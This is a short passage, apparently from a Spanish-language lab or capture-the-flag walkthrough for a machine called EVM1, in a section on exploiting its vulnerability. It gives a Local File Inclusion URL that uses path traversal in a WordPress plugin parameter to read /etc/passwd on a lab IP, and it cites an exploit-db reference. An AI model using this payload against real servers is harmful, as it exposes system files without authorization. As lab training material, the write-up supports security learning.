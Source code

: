 <img src="https://github.com/El-Palomo/EVM1/blob/main/evm4.jpg" width=80% />


## 4. Explotando la vulnerabilidad

### 4.1. Local File Inclusion (LFI)

http://192.168.56.103/wordpress/?wpv-image=../../../../../../../../etc/passwd
- La vulnerabilidad está detallada aquí: https://www.exploit-db.com/exploits/40850


<img src="https://github.com/El-Palomo/EVM1/blob/main/evm5.jpg" width=80% />
